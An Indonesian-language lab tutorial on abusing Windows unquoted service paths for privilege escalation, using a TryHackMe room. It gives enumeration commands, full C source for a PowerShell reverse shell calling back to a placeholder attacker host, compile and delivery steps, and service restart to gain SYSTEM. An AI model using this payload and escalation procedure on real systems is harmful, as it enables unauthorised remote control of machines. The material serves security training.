






Kerentanan Unquoted Service Path terjadi karena miskonfigurasi sebuah layanan yang tidak melindungi konfigurasi Path-nya (Folder) dengan tanda kutip (").

Ketika ada sebuah layanan (Service) yang memanggil file program (.exe), namun menggunakan Path (Folder) yang tidak diapit dengan tanda kutip (Unquoted), padahal path tersebut mengandung spasi, itu akan menjadi masalah. Karena saat layanan tersebut dijalankan, itu akan berperilaku persis seperti yang ditunjukkan pada gambar di bawah ini.


Dari sini mungkin bisa kita bayangkan, ketika ada Attacker yang mencoba memasukan sebuah Malicious file menggunakanan nama **The.exe** dan dimasukkan ke dalam **C:\\Program Files\\Internal Application**. Akan seperti apa jadinya?

<h1 class="header-group">Proof of Concept</h1>

Untuk Exercise Lab-nya, kita bisa gunakan link [TryHackMe](https://tryhackme.com/room/windows10privesc) ini.

# Enumeration

Pada tahap awal, tentunya kita perlu melakukan enumerasi terlebih dahulu untuk menemukan Service yang tidak mengimplementasikan Path-nya dengan baik. Kita dapat menggunakan perintah **wmic** dengan detail command di bawah ini.

```
wmic service get name,pathname,displayname,startmode | findstr /i /v "C:\Windows\\" | findstr /i /v """
```



Dari hasil enumerasi (menggunakan `wmic`), kita mendapatkan 2 buah Path yang tidak mengandung kutip.

1. **C:\\Program Files\\Amazon** (AWSLiteAgent)
2. **C:\\Program Files\\Unquoted Path Service** (unquotedsvc)

Setelah itu kita periksa, apakah kita (sebagai User biasa) dapat menuliskan file pada Folder tersebut atau tidak. Di sini saya menggunakan Tool `accesschk.exe`, yang bisa kalian unduh pada link ini <https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk>.

```
.\accesschk.exe /accepteula -uwdq "C:\<path name>\"
```



Nah! Di sini kita sudah menemukan bahwa folder **C:\\Program Files\\Unquoted Path Service** bisa kita tulis, karena terdapat Attribute `RW BUILTIN\Users`.

# Craft Malicious File (.exe)

Pada tutorial ini, saya akan coba untuk menghindari penggunaan Tool dari **Metasploit**, akhirnya saya menemukan sebuah tutorial menarik dari [Juggernaut-sec](https://juggernaut-sec.com/unquoted-service-paths/#Crafting_a_Custom_Exploit_to_Abuse_this_Misconfiguration), yang di mana Author-nya membuat Malicious File untuk melakukan **Reverse Shell** tanpa menggunakan `msfvenom`.

### Malicious File "reverse-shell.c"

```c
#include <windows.h>
#include <stdio.h>

int main(){ 
    system("powershell.exe -nop -c \"$client = New-Object System.Net.Sockets.TCPClient('<attacker host>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()\"");
    return 0; 
}
```

**Note:** Ubah bagian `<attacker host>`.

### Compile

Kemudian kita lakukan kompilasi dari kode C menjadi sebuah file `.exe`.

```
x86_64-w64-mingw32-gcc reverse-shell.c -o exploit.exe
```

### Additional Note

Sebagai catatan, di sini saya memindahkan file `exploit.exe` menggunakan HTTP Web Server dari Linux, untuk dipanggil via Windows.

```
python3 -m http.server 8000
```

# Abuse the Service



Jika file exploit-nya sudah kita download, lalu kita pindahkan file tersebut ke dalam Service Path yang rentan. Namun, nama file perlu disesuaikan dengan nama Folder yang akan dipanggil (berdasarkan urutannya).

Misal, ada sebuah Service yang memanggil:

> **C:\\Program Files\\Unquoted Path Service\\Common Files\\unquotedpathservice.exe**

Maka, eksploitasinya harus:

> **C:\\Program Files\\Unquoted Path Service\\Common.exe**


```
copy "C:\Users\<exploit file>" "C:\Program Files\<path name>\<first path name>.exe"
```



Jika sudah maka kita langsung jalankan saja Service-nya.

```
sc stop "<service name>"
sc start "<service name>"
```



Jika berhasil, kita akan mendapatkan akses shell-nya sebagai `NT AUTHORITY\SYSTEM`.

